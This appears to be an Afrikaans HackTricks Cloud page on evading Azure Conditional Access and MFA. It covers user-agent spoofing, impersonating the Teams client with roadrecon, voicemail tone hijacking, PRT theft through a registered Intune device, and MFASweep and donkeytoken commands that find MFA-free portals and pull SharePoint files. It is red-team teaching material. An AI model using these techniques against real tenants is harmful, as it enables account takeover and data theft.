 # Az - Voorwaardelike Toegang Beleide / MFA Omseiling

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Rooi Span Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Rooi Span Ekspert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekening planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

Azure Voorwaardelike Toegang beleide is reëls wat in Microsoft Azure opgestel is om toegangbeheer tot Azure dienste en toepassings af te dwing op grond van sekere **voorwaardes**. Hierdie beleide help organisasies om hul hulpbronne te beveilig deur die regte toegangbeheer onder die regte omstandighede toe te pas.\
Voorwaardelike toegang beleide **definieer** basies **Wie** kan toegang hê tot **Wat** van **Waar** en **Hoe**.

Hier is 'n paar voorbeelde:

1. **Aanmeld Risiko Beleid**: Hierdie beleid kan ingestel word om multi-faktor verifikasie (MFA) te vereis wanneer 'n aanmeld risiko opgespoor word. Byvoorbeeld, as 'n gebruiker se aanmeld gedrag ongewoon is in vergelyking met hul gereelde patroon, soos om van 'n ander land aan te meld, kan die stelsel vra vir addisionele verifikasie.
2. **Toestel Nakoming Beleid**: Hierdie beleid kan toegang tot Azure dienste beperk slegs tot toestelle wat voldoen aan die organisasie se sekuriteitsstandaarde. Byvoorbeeld, toegang kan slegs toegestaan word vanaf toestelle wat op datum antivirus sagteware het of 'n sekere bedryfstelsel weergawe gebruik.

## Voorwaardelike Toegang Beleide Omseilings

Dit is moontlik dat 'n voorwaardelike toegang beleid **sekere inligting nagaan wat maklik gemanipuleer kan word wat 'n omseiling van die beleid toelaat**. En as die beleid byvoorbeeld MFA geconfigureer het, sal die aanvaller in staat wees om dit te omseil.

### Toestel Platforms - Toestel Voorwaarde

Dit is moontlik om 'n voorwaarde in te stel gebaseer op die **toestel platform** (Android, iOS, Windows, macOS), egter, dit is gebaseer op die **gebruikers-agent** so dit is redelik maklik om te omseil. Selfs **al die opsies MFA afdwing**, as jy 'n **gebruikers-agent gebruik wat dit nie herken nie** sal jy in staat wees om die MFA te omseil.

### Plekke: Lande, IP-reekse - Toestel Voorwaarde

Natuurlik, as dit in die voorwaardelike beleid ingestel is, kan 'n aanvaller eenvoudig 'n **VPN** in die **toegelate land** gebruik of probeer om 'n manier te vind om toegang te verkry vanaf 'n **toegelate IP adres** om hierdie voorwaardes te omseil.

### Office365 Kliënt Toepassings

Jy kan aandui dat as kliënte **Office 365 toepassings vanaf die blaaiers toegang, hulle MFA nodig het**:

<figure><img src="../../../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

Om dit te omseil, is dit moontlik om voor te gee dat jy in 'n toepassing aanmeld vanaf 'n lessenaartoepassing (soos Microsoft Teams in die volgende voorbeeld) wat die beskerming sal omseil:
```bash
roadrecon auth -u user@email.com -r https://outlook.office.com/ -c 1fec8e78-bce4-4aaf-ab1b-5451cc387264 --tokrns-stdout

<token>
```
Aangesien die Microsoft Teams-app baie toestemmings het, sal jy daardie toegang kan gebruik.

{% hint style="success" %}
Jy kan die I**D van meer openbare toepassings** met vooraf gedefinieerde Office365-toestemmings in die databasis van roadtools vind:

{% code overflow="wrap" %}
```sql
SELECT appId, displayName FROM ApplicationRefs WHERE publicCLient = 1 ORDER BY displayName ASC
```
{% endcode %}
{% endhint %}

Hierdie aanval is spesiaal interessant omdat openbare Office365 toepassings standaard toestemming sal hê om sekere data te bekom.

### Ander toepassings

Standaard sal ander toepassings wat deur gebruikers geskep is nie toestemming hê nie en kan privaat wees.\
Egter, gebruikers kan ook **openbare** **toepassings** skep wat hulle sekere **toestemmings** gee.

'n Potensiële scenario waar 'n beleid ingestel is om **MFA te vereis om toegang tot 'n toepassing** te verkry wanneer die gebruiker 'n **blaaier** gebruik (miskien omdat dit 'n webtoepassing is en daarom die enigste manier sal wees), as daar 'n **proxy-toepassing** is - 'n toepassing wat toegelaat word om **met ander toepassings namens gebruikers te kommunikeer** - kan die gebruiker **in die proxy-toepassing aanmeld** en dan deur hierdie proxy-toepassing **in die aanvanklik MFA-beskermde toepassing aanmeld**.

Kyk na die [**Invoke-MFASweep**](az-conditional-access-policies-mfa-bypass.md#invoke-mfasweep) en die [**donkeytoken**](az-conditional-access-policies-mfa-bypass.md#donkeytoken) tegnieke.

## Ander Az MFA Omseilings

### Ringtone

Een Azure MFA opsie is om **'n oproep in die geconfigureerde telefoonnommer te ontvang** waar die gebruiker gevra sal word om die karakter `#` te **stuur**.

{% hint style="danger" %}
Aangesien karakters net **toon** is, kan 'n aanvaller die **stempos** boodskap van die telefoonnommer **kompromitteer**, die **toon van `#`** as die boodskap konfigureer en dan, wanneer die MFA aangevra word, verseker dat die **slagoffer se telefoon besig is** (dit bel) sodat die Azure oproep na die stempos omgelei word.
{% endhint %}

### Voldoen aan Toestelle

Beleide vra dikwels vir 'n voldoenende toestel of MFA, so 'n **aanvaller kan 'n voldoenende toestel registreer**, 'n **PRT** token verkry en **op hierdie manier die MFA omseil**.

Begin deur 'n **voldoenende toestel in Intune te registreer**, dan **kry die PRT** met:
```powershell
$prtKeys = Get-AADIntuneUserPRTKeys - PfxFileName .\<uuid>.pfx -Credentials $credentials

$prtToken = New-AADIntUserPRTToken -Settings $prtKeys -GertNonce

Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

<token returned>
```
Vind meer inligting oor hierdie tipe aanval op die volgende bladsy:

{% content-ref url="../az-lateral-movement-cloud-on-prem/pass-the-prt.md" %}
[pass-the-prt.md](../az-lateral-movement-cloud-on-prem/pass-the-prt.md)
{% endcontent-ref %}

## Gereedskap

### [roadrecon](https://github.com/dirkjanm/ROADtools)

Kry al die beleide
```bash
roadrecon plugin policies
```
### [Invoke-MFASweep](https://github.com/dafthack/MFASweep)

MFASweep is 'n PowerShell-skrip wat probeer om **in te teken op verskeie Microsoft-dienste met 'n verskafde stel geloofsbriewe en sal probeer om te identifiseer of MFA geaktiveer is**. Afhangende van hoe voorwaardelike toegangbeleide en ander multi-faktor verifikasie-instellings geconfigureer is, kan sommige protokolle eindig as enkel-faktor. Dit het ook 'n addisionele kontrole vir ADFS-konfigurasies en kan probeer om in te teken op die plaaslike ADFS-bediener indien opgespoor.
```bash
Invoke-MFASweep -Username <username> -Password <pass>
```
### [donkeytoken](https://github.com/silverhack/donkeytoken)

Donkey token is 'n stel funksies wat daarop gemik is om sekuriteitskonsultante te help wat die Voorwaardelike Toegang Beleide moet valideer, toetse vir 2FA-geaktiveerde Microsoft-portale, ens.
```powershell
Import-Module 'C:\Users\Administrador\Desktop\Azure\Modulos ps1\donkeytoken' -Force
```
**Toets elke portaal** of dit moontlik is om **in te log sonder MFA**:
```powershell
Test-MFA -credential $cred -Verbose -Debug -InformationAction Continue
```
Omdat die **Azure** **portaal** **nie beperk** is nie, is dit moontlik om 'n **token van die portaal-eindpunt te versamel om toegang te verkry tot enige diens wat deur die vorige uitvoering opgespoor is**. In hierdie geval is Sharepoint geïdentifiseer, en 'n token om toegang daartoe te verkry, word aangevra:

{% code overflow="wrap" %}
```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```
{% endcode %}

Aangesien die token die toestemming Sites.Read.All (van Sharepoint) het, selfs al kan jy nie Sharepoint vanaf die web toegang nie weens MFA, is dit moontlik om die token te gebruik om toegang te verkry tot die lêers met die gegenereerde token:
```powershell
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```
## Verwysings

* [https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s](https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
